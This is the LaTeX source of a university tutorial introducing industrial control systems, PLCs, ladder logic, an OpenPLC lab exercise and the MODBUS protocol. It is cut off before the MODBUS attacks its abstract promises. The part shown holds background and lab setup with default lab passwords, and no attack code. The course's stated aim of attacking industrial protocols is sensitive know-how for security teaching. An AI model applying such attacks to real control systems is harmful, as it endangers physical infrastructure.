% declare our document type
\documentclass[12pt]{extarticle}

%%%%%%%% PACKAGES NEEDED FOR THIS DOCUMENT

%allow us to create diagrams
\usepackage{tikz}
%used for color
\usepackage{xcolor}
% allow us to put pictures in the document
\usepackage{graphicx}
% this line lets us use larger fonts
\usepackage{extsizes}
% this allows us to create "slides" in the document
\usepackage[many]{tcolorbox}
% this line lets us caption figures inside the "slides"
% this is neccesary since the slide doesn't allow the use of
% \figure{} inside
\usepackage{caption}
% sets up tables so that they autoformat
\usepackage{array}
\newcolumntype{L}[1]{>{\raggedright\let\newline\\\arraybackslash\hspace{0pt}}m{#1}}
\newcolumntype{C}[1]{>{\centering\let\newline\\\arraybackslash\hspace{0pt}}m{#1}}
\newcolumntype{R}[1]{>{\raggedleft\let\newline\\\arraybackslash\hspace{0pt}}m{#1}}
% allows use of courier font
\usepackage{courier}
% make the table of contents links like people are used to
% the hidelinks parts hides link outlines
\usepackage[hidelinks]{hyperref}
% resize the margins
\usepackage[margin=1in]{geometry}
% use utf8 encoding
\usepackage[utf8]{inputenc}
% one of the other packages complained until I put this here
\usepackage[english]{babel}
% allow citations
\usepackage{cite}
% code listings
\usepackage{listings}
\lstset{frame=tb,
	language=Python,
	aboveskip=3mm,
	belowskip=3mm,
	showstringspaces=false,
	columns=flexible,
	basicstyle={\small\ttfamily},
	numbers=none,
	numberstyle=\tiny\color{gray},
	keywordstyle=\color{blue},
	commentstyle=\color{green},
	stringstyle=\color{red},
	breaklines=true,
	breakatwhitespace=true,
	tabsize=3
}
% fix single quote in listings
\usepackage{textcomp}
\usepackage{filecontents}
%\usepackage[noadjust]{cite}
\usepackage{graphicx}
\usepackage{hyperref}
\usepackage{forest,kantlipsum}
\usepackage{float}
\usepackage{etoolbox}
\usepackage{url}
\usepackage{cleveref}
\usepackage{xcolor}
\usepackage[labelfont=bf]{caption}

%%%%%%%%%%% CUSTOM ENVIRONMENT SETUP

% declare a typesetting environment for code/emphasis
\newcommand{\code}[1]{\texttt{\bfseries#1}}
\newenvironment{codeblock}{\bfseries\texttt\bgroup}{\egroup\par}
% better declaration of font environment
%\DeclareTextFontCommand{\codetext}[1]{\code{#1}}
% declare a large font environment for use in the ''slides''
\newcommand{\instruction}[1]{\Large{#1}}
% font environment again
%\DeclareTextFontCommand{\instruction}{\instructionfont}
\newenvironment{instructionblock}{\Large\bgroup}{\egroup}
% declare a ''slide'' text box for use in the document
% the slide is a numbered \section{}
\newtcolorbox[auto counter]{slide}[3][]{%
	colback=brown!5!white,colframe=brown!80!gray,height=3.72in,
	title={\addcontentsline{toc}{section}{\thetcbcounter ~~ #2}\bf\Large\thetcbcounter ~ #2\hfill #3 \label{slide \thetcbcounter}\setcounter{section}{\thetcbcounter}}}
% declare a ''subslide'' text box for use in the document
% the subslide is a numbered \subsection{}
\newtcolorbox[auto counter,number within=section]{subslide}[3][]{%
	colback=brown!5!white,colframe=brown!80!gray,height=3.72in,
	title={\addcontentsline{toc}{subsection}{\thetcbcounter ~~ #2}\bf\Large\thetcbcounter ~ #2\hfill #3 \label{slide \thetcbcounter}}}
\renewcommand{\labelitemii}{$\circ$}
\lstset{basicstyle=\ttfamily,keywordstyle=\bfseries\color{blue!80!black},identifierstyle=\bfseries,stringstyle=\color{red},showstringspaces=false,commentstyle=\itshape\color{green!40!black},upquote=true}

% The following code is courtesy of Chris Ocker and the susequent code used for automatic Beamer slide linking
% My Environments (keep these)
\newcommand{\ben}{\begin{enumerate}}
\newcommand{\een}{\end{enumerate}}
\newcommand{\bi}{\begin{itemize}}
\newcommand{\ei}{\end{itemize}}
\usepackage{titling}
\newcounter{questionEnumerate}
\newcounter{next}
\setcounter{next}{2}
\newcounter{prev}
\setcounter{prev}{0}
\usepackage{hyperref}
\hypersetup{
	colorlinks=true,
	linkcolor=blue,
	filecolor=blue,      
	urlcolor=blue,
	citecolor=blue,
}


%\setlength{\arrayrulewidth}{1mm}
%\setlength{\tabcolsep}{18pt}
%\renewcommand{\arraystretch}{2.5}



%%%%%%%%% SET UP OUR TITLE PAGE

\begin{document}
\title{Hacking with OpenPLC}
\author{Matt Kirkland}
\date{\hyperref[changelog]{Version 1.0}} %\today
\renewcommand{\abstractname}{Summary}
\begin{titlepage}
\maketitle
\pagenumbering{gobble}
\begin{center}

\includegraphics[scale=.5]{figures/UofI}

%\large{CS 536: Advanced Information Assurance}

\vskip 40pt

\textbf{Abstract}\\
The purpose of this document is to introduce students to Industrial Control Systems. This primer tutorial will introduce students to Ladder logic and walk through the construction of the student's first ladder diagram. After that, students will dive into the popular MODBUS protocol. This tutorial will then guide students through a series of attacks that leverage startling weaknesses in the protocol. The tutorial concludes on a discussion on the attack mitigations.

\end{center}


\vfill
\begin{center}

\includegraphics[scale=.5]{figures/cc}\\
This work is licensed under a \href{https://creativecommons.org/licenses/by/2.0/}{Creative Commons Attribution 2.0 Generic License}.
\vskip 10pt
\end{center}

\end{titlepage}

%%%%%%%%%% TABLE OF CONTENTS

\pagebreak
\tableofcontents

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%    BEGINNING OF ACTUAL DOCUMENT
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\pagebreak
\pagenumbering{arabic}
\setcounter{section}{1}



%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%

	\pagebreak
	\setcounter{section}{1}
	\begin{slide}{Objectives of this Tutorial}{\hyperref[slide \thenext]{\textgreater}}
		\begin{instructionblock}
				\ben 
					\item Introduce Industrial Control Systems
					\item Explore the security impacts of MODBUS
					\item Discuss solutions to ICS security
					\item Obtain hands-on experience with PLCs
				\een
		\end{instructionblock}
	\end{slide}
	
	
%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%	
	
	
	\pagebreak
	\stepcounter{next}
	\stepcounter{prev}	
	\begin{slide}{Required Background}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
		%\vskip 10 pt
		\begin{instructionblock}
			\ben
				\item Basic understanding of security concepts and networking
				\item Ability to work with virtual machines (i.e. Virtual Box, VMware, etc.)
				\item Familiarity with Python or experience programming
			\een
		\end{instructionblock}
	\end{slide}
	
	\pagebreak
	
	
%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Introduction to ICS}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	%\vskip 10 pt
	\begin{instructionblock}
		\ben
			\item Industrial Control Systems
			\item IT vs OT
			\item STUXNET \& Ukraine 2015
		\een
	\end{instructionblock}
\end{slide}
\vfill
\noindent
\textbf{Industrial Control Systems:}\\
"An industrial control system (ICS) is a broad class of automation systems used to provide control and monitoring functionality in manufacturing and industrial facilities." \cite[p.13]{KnappLangill}\\
Traditionally, when we talk about ICS we refer to the control systems that regulate critical infrastructure.\\
\textbf{Information Technology vs Operational Technology:}\\
The hardware and software that operates in an ICS is commonly referred to as Operational Technology (OT). OT differs from traditional Information Technology (IT) in that OT has (1) a much longer lifespan (10 years) (2) Far more ruggedized (3) Expected to run with little human interaction (4) 100\% availability is necessary \cite{NexDef}\\
\textbf{STUXNET:}\\
The malware that everyone thinks of when it comes to control system security. Discovered in Fall 2010, but active as early as 2007, STUXNET gained it's noteriety as one of the first, high-profile, weaponized peices of malware. STUXNET utilized 4 zero-day vulnerabilities and targeted windows machines. It's primary target was to spread and infect particular PLCs (Programmable Logic Controllers) and other hardware used in industrial processing. It would tend to be very benign and subversive until it hit it's intended target platforms. \cite[p.191-192]{KnappLangill}\\
\textbf{Ukraine 2015:}\\
In December of 2015, 225,000 customers in Ukraine lost power. This resulted from a coordinated cyberattack on Ukraine's power grid at 3 separate utilities. While the cyberattack effected ICS equipment, the attackers leveraged Social Engineering ploys and weaknesses in the Enterprise network to obtain access to the ICS network. \cite{Ukraine2015}
\pagebreak

%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Programmable Logic Controllers }{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
\begin{instructionblock}
	\begin{center}
		\includegraphics[scale=0.03]{figures/PLC01.jpg}
	\end{center}
\bi
	\item History of PLCs: Relays!
	\item Modern implementation of PLCs
	\item Operation and Logic
\ei
\end{instructionblock}
\end{slide}
\vfill
\noindent
\textbf{History}\\
The inception of PLCs began with General Motor back in 1968. At the time, electromechanical relays were used to impose logic on field devices. These field devices, motors, sensors, and all forms of actuation were controlled by these hardwired devices. The major drawback of this approach was likely the cost but mainly that the electromechanical relays could not be programmed. Hence the invention of the first programmable logic controller (PLC). \cite[p.123]{KnappLangill} \\
\textbf{Modern PLCs}\\
Mentioned earlier, a PLC is a Programmable Logic Controller. It is an ruggedized computer that peforms automation and control for field devices (like pumps, sensors, solenoids, and other equipment). PLCS, have a much longer life-cycle compared to enterprise computers and are programmed entirely differently than traditional IT systems. \cite[p.123]{KnappLangill} \\
\textbf{How They Work}\\
The basic elements of a PLC are the inputs, outputs, and the controller itself. Where the logic and processing are handled. The PLC operates by running through three phases: (1) Checking inputs - the PLC will grab information from any connected sensors (2) Logic - the PLC will run the program logic that has been uploaded to it (3) Writing outputs - the PLC will write to the output devices (actuators) based on the logic phase. \cite{OP_plcs}\\
\textbf{IEC-61131}\\
This standard defines what a PLC is and forms how they may be manufactured and programmed. IEC-61131-3 specifically deals with the 5 programming languages that PLCs support. It defines Ladder Diagrams (LD), Function Block Diagram (FBD), Structured Text (ST), Instruction List (IL), and Sequential Function Chart (SFC). Today we will be dealing with the most popular programming language for PLCs: Ladder Logic.

%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Example of PLC Role in Industry}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\begin{instructionblock}
		\begin{center}
		
\includegraphics[scale=0.46]{figures/IndustrialProcessExample01.jpg}
		\end{center}
	\end{instructionblock}
\end{slide}
\vfill
\noindent
\textbf{Example: Chemical Processing}\\
Here we see a very simple example of an industrial control process that ICS exist in. This image depicts a chemical compound being created by the mixing of 2 other chemicals (A \& B).The table above shows a possible division of the automation process between 2 PLCs. The important takeaway here is (1) There are many "right" ways to divide labor between PLCs (2) PLCs control sub-processes in the main industrial process in question. 

%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Ladder Logic}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
\begin{instructionblock}
\begin{center}
	
\includegraphics[scale=1]{figures/LadderDiagram01.JPG}
\end{center}
\end{instructionblock}
\end{slide} 
\vfill
\noindent
\textbf{Ladder Logic}\\
The first thing most notice about a Ladder Diagram (LD) is that the symbols look like electrical symbols. It is, however, important to keep in mind there are a few key differences between LD and electrical diagrams. Ladder diagrams are read top to bottom from left to right. This implies heavily that order very much matters in an LD. Additionally, they take on a ladder shape, decorated with rungs of logic. Starting from the top the LD is parsed and evaluated based on the current value of any inputs (ex. contacts). Then after the ENTIRE LD is read, the outputs are written (ex. coil). This implies another very important factor, when there is a discrepency between the value of an output in the ladder logic, the last occurring rung is the tie breaker. Always remember that the last rung is the one that counts. \cite{PLC_acad}

%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Contact}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
\begin{instructionblock}
	\begin{center}
		
\includegraphics[scale=1.8]{figures/LadderDiagram02.JPG}
	\end{center}
\end{instructionblock}
\end{slide}
\vfill
\noindent
\textbf{Relay Contact (Normally Open)}\\
A main type of instruction in ladder logic. Also referred to as examine when closed/on. Essentially, if this contact is activated (usually by PLC input) then this contact will be true. \cite{OP_plcs} \\
\textbf{Relay Contact (Normally Closed)}\\
Another variant of the contact is the negated contact. This contact is behaves in the exact opposite of the NO Contact. When activiated (usually by PLC input) the this contact will be false. \cite{OP_plcs}

%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Coil}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
\begin{instructionblock}
	\begin{center}
		
\includegraphics[scale=2.2]{figures/LadderDiagram03.JPG}
	\end{center}
\end{instructionblock}
\end{slide}
\vfill
\noindent
\textbf{The Open Coil}\\
While contacts are associated with inputs normally, coils are usually associated with outputs. When a series of instructions that precede a coil on a given run evaluate to true or are activated, the coil is also activated. The activation of a coil can the writing to an output device on the PLC's I/O or simply a writing to a memory address. \cite{OP_plcs}\\
\textbf{The Closed Coil}\\
Similar to the Open Coil in behavior, this coil, however, is only activated when a series of instructions preceding are evaluated to false. \cite{OP_plcs} \\

%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Common Ladder Configurations}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\begin{instructionblock}
		\begin{center}
			
\includegraphics[scale=1.6]{figures/LadderDiagram05.JPG}
		\end{center}
	\end{instructionblock}
\end{slide}
\vfill
\noindent
\textbf{OR}\\
When evlauating a rung on an LD one likely will come across a scenario as shown by the green circle in the image above. This configuration of LD instructions in parallel is actually representing OR. In the event that var1 is NOT set to the true condition, if var2 is in the false condition (because of the negation) the output1 will activate.\\
\textbf{AND}\\
Now lets say a scenario as shown with the blue circle is discovered. This is an AND condition. In order for the output2 instruction to be set to be activated, BOTH var1 and var2 MUST be activated (true).\\
\textbf{Scan Cycle}\\
Remember to keep something called the "Scan Cycle" in mind. Scan Cycle is the cyclic process by which PLCs operate. First, they read all of their inputs. Once, the values of the inputs are determined, the logic (in our case LD) is processed. Only after the logic is processed, will the outputs be determined and written to. This means that the last rung to write to an output (ex. coil) will be the state that is written to the output in question. It is NOT immediatly written before finishing processing of the logic. \cite{PLC_acad}

%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%
\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Function Blocks}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\begin{instructionblock}
		\begin{center}
			
\includegraphics[scale=1.2]{figures/FunctionBlock01.JPG}
		\end{center}
	\end{instructionblock}
\end{slide}
\vfill
\noindent
\textbf{The Function Block}\\
Blocks come in many different forms and must each be evaluated uniquely. The behavior of each varies greatly and adds a great deal of functionality to Ladder Logic. \\
The Function blocks defined here are (top to bottom,from left to right): Greater Than, Max, Add, and Equals. Each of these function blocks takes 2 inputs which can take the form of a constant value (true, 1, 19, input1, etc.) or can be connected to preceding instructions when boolean values are required as input. Each has a condition, that when satisfied, pushes a value (boolean or numeric) along it's OUT.

%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%
\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Review: Guess that Ladder Diagram!}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
\begin{instructionblock}
	Given all I/O is in the '0' state, except for input, what will be the value of output after this LD is done running?
	\begin{center}
		
\includegraphics[scale=1]{figures/LadderDiagram04.JPG}
	\end{center}
\end{instructionblock}
\end{slide}
\vfill
\noindent
Refer to the previous slides as needed to solve this problem.
	
%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%
\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Start OpenPLC runtime!}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\begin{instructionblock}
Follow the instructions below to setup the environment for the hands-on portion of the tutorial.
\begin{center}
	
\includegraphics[scale=0.36]{figures/OpenPLCRuntime01.JPG}
\end{center}
	\end{instructionblock}
\end{slide}
\vfill
\noindent
\textbf{Instructions}\\
	\ben
\item On the OpenPLC VM, open a terminal. Run the command \textit{sudo ./OpenPLC\_v3/start\_openplc.sh}. This will start the OpenPLC runtime.
\item Open Mozilla Firefox and navigate to \url{localhost:8080}. 
\item Login to OpenPLC. The username and password is "openplc".
\item Open a new tab or window and navigate to \url{192.168.5.9:8080/ScadaBR}. This will load the ScadaBR's Human Machine Interface (HMI). The username and password is "admin".
\item Familiarize yourself with where the graphical interfaces are located. You view them by clicking the 'Graphical views' icon. It is the second from the left, just below the SCADABR logo.
\item Take a moment to familiarize yourself with the HMI. Try turning on the valve and pump and seeing what happens.
\een
%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Task: Water Tank Hazard Light}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
\begin{instructionblock}
On the OpenPLC VM, locate the overflow.xml template and open it using the OpenPLC Editor.
\begin{center}
	
\includegraphics[scale=0.36]{figures/PLCOpenEditor01.JPG}
\end{center}
\end{instructionblock}
\end{slide}
\vfill
\noindent
\textbf{Instructions}
\ben
\item Run this command: \textit{sudo python /home/openplc/PLCOpen\ Editor/PLCOpenEditor.py}
\item In the Editor, navigate to File $\rightarrow$ Open. Select Desktop/Projects/overflow.xml.
\item Double click on Program 0. Expand the center pane as necessary. Here there are two sections: Local variables and a section where we can edit the current ladder. Start by pressing the green "+" symbol to create a new variable. Create the following variables.
\begin{tabular}[l]{| c | c | c | c | c |}
	\hline
	\textbf{Name} & \textbf{Class} & \textbf{Type} & \textbf{Location} & \textbf{Initial Value} \\
	\hline
	WATER\_Lvl & Local & INT & \%IW0 & 0 \\
	\hline
	valve & Local & BOOL & \%IX0.0 & 0 \\
	\hline
	WARN\_LED & Local & BOOL & \%QX0.2 & 0 \\
	\hline
\end{tabular} 
\item Create a LD that looks like this: \\

\includegraphics[width=\textwidth]{figures/LadderDiagram06.JPG}
\item Save this program with whatever name you would like.
\item Navigate to File $\rightarrow$ Generate Program. Choose a location of your choice.
\item Open firefox navigate to \url{http://localhost:8080}. Click on the 'Navigate' tab.
\item Click browse and select your st extension file that we just created. Click 'Upload Program'.
\item After waiting for the compilation to finish, click 'Go to Dashboard'.
\item It may be hard to see, but under the 'Logout' button, there is a 'Start PLC' button. Press this to start your ladder logic program on the PLC.
\item Test your ladder diagram using the pre-made HMI on ScadaBR. This can be accessed from your browser on the OpenPLC machine. (\url{http://192.168.5.12:8080/ScadaBr}). Click on the HMI's 'Graphical Views' to view these.
\een

%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Intro to MODBUS}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
\begin{instructionblock}
\bi 
	\item Need: Information sharing between field and control devices
	\item Many forms: RTU, ASCII, TCP/IP, TCP, UDP, Plus, etc.
	\item MODBUS Objects
	\bi
		\item Coil (1-bit)
		\item Discrete input (1-bit)
		\item Input register (16-bit)
		\item Holding register (16-bit)
	\ei
\ei
\end{instructionblock}
\end{slide}
\vfill
\noindent
\textbf{MODBUS}\\
A layer 7 protocol (OSI model) that is used to transmit request/reply messages between field devices and control devices. Any protocol fitting this use-case must consider the overhead associated. Many field devices aren't working with much processing power, as such the protocol should NOT be taxing, computation-wise. For this reason, MODBUS has become very popular for control device communication with higher level automation control systems such as SCADA (Supervisory Control and Data Acquisition). MODBUS has many variants and can be communicated over the TCP/IP stack or serially. \cite[p. 123]{KnappLangill}\\
When a MOBUS packet is recieved, a MODBUS address is used so that way only the intended MODBUS device responds to a given request. The starting request will contain a function code which determines what type of request is being made. The function request may be a read or write of the following MODBUS objection: Coils, Discrete inputs, Input registers, or Holding registers. Discrete inputs are usually reserved for digital I/O and Input registers are usually reserved for analog I/O. \cite[p.123-125]{KnappLangill}\\
%-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------%
\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: MODBUS over TCP/IP}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
\begin{instructionblock}
\begin{center}
